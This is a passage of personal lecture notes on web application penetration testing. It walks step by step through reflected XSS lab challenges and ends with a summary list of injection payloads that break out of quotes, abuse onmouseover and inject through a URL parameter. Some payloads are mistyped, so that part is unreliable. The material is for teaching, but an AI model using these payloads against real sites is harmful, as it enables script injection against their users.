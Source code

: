 		- so output : `'onmouseover=alert(document.URL)'>`
		- remove those 2 extra things coming at the end i.e a single quote & close angle bracket ✔
	- STEP 3: so the payload is `'>onmouseover=alert(document.URL)` goes inside input field & click on search , output ![[WAPT-lecture-17-13.jpg]]
		- here before `onmouseover` , it took a string , the payload is not closed cuz we're getting in red & if we want to balance the payload then we need to put a single quote before `alert` word ✔
	- STEP 4: ultimately the payload is `'>onmouseover='alert(document.URL)` & click on search button , now hover on the search button & challenge is completed
	- `Tip💡` : that's why we're running base line payload to check what's happening ✔
8) <u>XSS Challenge 8</u>
	- STEP 1: write again `ironman` inside the search input field & click search
		- so it's showing `cannot find your query` & now `ironman` word coming inside single quotes value of `value` attribute of input field
		- STEP 1.1: in order to make sure , we'll check via our base line payload i.e `<script>alert(alert.(document.URL)</script>` , so put it inside the input field & click on search , output is ![[WAPT-lecture-17-14.jpg]]
		- so here greater-&-less-than-symbols is shown as HTML entities , so here encoding used , so in this cases where these kind of encoding happens then use `onmouseover` payload cuz this payload doesn't contain greater-&-less-than-symbols ✔
	- STEP 2: so `onmouseover=alert(document.URL)` & click on search , so output we'll get ![[WAPT-lecture-17-15.jpg]]
		- STEP 2.1: so to balance the payload , we need to use same trick i.e put the greater-than-symbol after the starting single quote & a single quote before the `alert` like this `'>onmouseover='alert(document.URL)` , & if you do mouse hover on `search` button then nothing happens . so output ![[WAPT-lecture-17-16.jpg]]
		- so the way we're doing XSS , that way is not possible
		- so we have 2nd way also to do XSS
	- STEP 3: 2nd way to do XSS
		- STEP 3.1: on URL address bar , u'll see `submit=search` & search button also has search text , so on address bar , remove `search` word & write `ironman` & press enter , u'll get `ironman` text on the search button also like this ![[WAPT-lecture-17-17.jpg]]
		- which means that's reflecting means , whatever you write on that address bar , it'll reflect on the `search` button also
		- STEP 3.2: `ironman` word of button is coming inside `value` attribute with double quotes i.e ![[WAPT-lecture-17-18.jpg]]
		- so payload will be `ironman"onmouseover="alert(document.URL)` , to balance the payload , we put a double quote before `alert` & we want `ironman` as a text on button , so behind the scene that payload will look like `<input type="submit" name="submit" value="ironman" onmouseover="alert(document.URL)">` ✔
	- STEP 4: so paste this payload on URL address bar after `submit=` i.e `ironman"onmouseover="alert(document.URL)` & hit enter & now we'll get a pop i.e "Internet Explorer has modified this page to help prevent XSS" cuz 
		- we're before this way , we're trying all the things inside input field , so at that time , the browser was not preventing ✔
		- but the moment , we run a query on `submit=` (aka submit parameter) URL address bar & it gets executed but the browser prevented that ✔
	- so challenge is completed but the browser is stopping
### summary / Payloads of challenges
- Challenge 1 : `<script>alert(alert.(document.URL)</script>`
- Challenge 2 : `><script>alert(alert.(document.URL)</script>`
- Challenge 3 : `"><script>alert(alert.(document.URL)</script>`
- Challenge 4 : `'><script>alert(alert.(document.URL)</script>`
- Challenge 5 : `";</script><script>alert(alert.(document.URL)</script>`
- Challenge 6 : `';</script><script>alert(document.URL)</script>`
- Challenge 7 : `'>onmouseover='alert(document.URL)`
- Challenge 8 : on browser URL address bar , apply the payload after "submit" parameter i.e `ironman"onmouseover="alert(document.URL)` 
